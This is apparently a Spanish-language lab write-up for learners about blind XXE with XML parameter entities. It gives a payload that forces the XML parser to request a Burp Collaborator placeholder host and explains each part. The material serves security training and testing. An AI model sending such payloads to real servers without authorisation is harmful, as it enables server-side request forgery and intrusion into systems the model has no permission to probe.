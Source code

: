 En esta clase continuamos con la explotación de vulnerabilidades XXE ciegas, utilizando una variante más sofisticada. En este caso, la aplicación bloquea las entidades externas tradicionales, lo que nos obliga a recurrir al uso de parameter entities, una técnica menos común pero igualmente poderosa.

El objetivo es forzar al analizador XML a realizar una solicitud externa, y para ello empleamos Burp Collaborator como canal para observar si el servidor realiza conexiones salientes. Si vemos actividad en Collaborator después de enviar nuestra carga, confirmamos la vulnerabilidad.

Este enfoque es especialmente útil en entornos donde se han implementado filtros para mitigar las XXE básicas, pero aún persisten configuraciones inseguras que pueden ser explotadas con técnicas más avanzadas.

Solucion
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
### 🧩 Explicación de cada parte:

1. **`<!DOCTYPE stockCheck [...]>`**
    
    - Se define un `DOCTYPE` llamado `stockCheck`. El nombre no importa mucho, solo es requerido para declarar entidades DTD (Document Type Definition).
        
2. **`<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN">`**
    
    - Se declara una **entidad externa de parámetro** llamada `%xxe`.
        
    - El valor de esta entidad es lo que devuelve la URL: `http://BURP-COLLABORATOR-SUBDOMAIN`
        
    - Esta URL pertenece a **Burp Collaborator**, una herramienta que permite detectar interacciones salientes desde servidores vulnerables.
        
3. **`%xxe;`**
    
    - Aquí se **invoca la entidad de parámetro** `%xxe`.
        
    - Cuando el parser XML trata de expandirla, hace una **solicitud HTTP a la URL especificada**.
        
    - Si el servidor realiza esa petición, el atacante (usando Burp Collaborator) lo detecta, confirmando la vulnerabilidad.
Este payload:

- Usa **entidades de parámetro** para forzar al servidor a conectarse a un servidor externo (como Burp Collaborator).
    
- Sirve para detectar si el servidor es **vulnerable a XXE + SSRF**.
    
- Es una técnica usada comúnmente en **pruebas de seguridad** (pentesting).

![Pasted_image_20250730195232.png](/Imagenes/Pasted_image_20250730195232.png)
